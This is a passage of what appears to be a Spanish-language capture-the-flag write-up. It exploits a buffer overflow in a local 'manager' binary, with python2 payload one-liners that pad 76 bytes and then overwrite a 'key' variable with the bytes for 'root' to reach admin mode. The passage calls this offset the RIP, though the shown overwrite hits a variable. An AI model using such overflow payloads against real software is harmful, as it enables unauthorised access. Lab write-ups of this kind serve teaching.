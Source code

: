 Info:

```
key = 1111638337
```

Vemos que el valor a cambiado y si lo traducimos a `hexadecimal` veremos lo siguiente:

```
42424141
```

Vemos que esta funcionando, ya que visto en `ascii` seria de la siguiente forma `BBAA`, por lo que solo tendremos que bajar `2` numeros mas.

```shell
python2 -c 'print b"A"*76 + b"B"*4' | ./manager
```

Info:

```
############################################################
#      Sistema de Gestión - Modo Usuario/Admin             #                                                                                                 
############################################################                                                                                                 
                                                                                                                                                             
Escribe la contraseña: 
[+] Estás en modo usuario                                                                                                                                    
Tu clave sera "root" para entrar al modo administrador
```

Si ahora volvemos a leer el archivo...

```shell
cat /tmp/key_output.txt
```

Info:

```
key = 1111638594
```

Vemos que ahora si son todo `B(42)` ya que traducido seria `42424242`, por lo que hemos dado con el `offset` correcto del `RIP`, ahora que podemos manipular la `key` vamos a poner el valor de `root` en la `key` de la siguiente forma, si nosotros ponemos la palabra `root` como tal, no va a funcionar, lo tendremos que poner en `hexadecimal` que corresponderia a `726f6f74`, por lo que porbaremos a escribir lo siguiente:

### Inyección de código en la `key`

```shell
python2 -c 'print b"A"*76 + b"\x74\x6f\x6f\x72"' | ./manager
```

Info:
